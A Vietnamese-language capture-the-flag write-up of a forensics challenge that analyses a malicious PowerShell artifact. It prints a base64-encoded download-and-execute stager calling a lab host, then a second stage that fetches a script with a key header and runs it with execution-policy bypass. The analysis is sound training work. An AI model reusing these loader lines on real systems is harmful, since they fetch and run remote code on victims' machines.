 ## Forensics

### Chall name: Thorin’s Amulet
>Garrick and Thorin’s visit to Stonehelm took an unexpected turn when Thorin’s old rival, Bron Ironfist, challenged him to a forging contest. In the end Thorin won the contest with a beautifully engineered clockwork amulet but the victory was marred by an intrusion. Saboteurs stole the amulet and left behind some tracks. Because of that it was possible to retrieve the malicious artifact that was used to start the attack. Can you analyze it and reconstruct what happened? Note: make sure that domain korp.htb resolves to your docker instance IP and also consider the assigned port to interact with the service.

File artifact.ps1: một script PowerShell
```bash
$ function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
}
qt4PO
```

Đầu tiên, chúng ta sẽ thêm domain `korp.htb` trỏ đến IP Docker XX.XXX.XX.XXX
```bash
$ echo "XX.XXX.XX.XXX korp.htb" | sudo tee -a /etc/hosts
```

Đây là bài đầu tiên mình làm về script PowerShell nên mình sẽ dùng AI để phân tích hộ:

![thorinsamulet](/assets/images/HTB-Apocalypse/Forensics/forensics_thorins_amulet/thorinsamulet.png)

Vậy chúng ta đã biết là đoạn mã độc sẽ chạy và thực thi tại:`http://korp.htb/update`

Mình sẽ thử dùng curl để xem response của `http://korp.htb:[port]/update`
```bash
$ function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}
aqFVaq
```
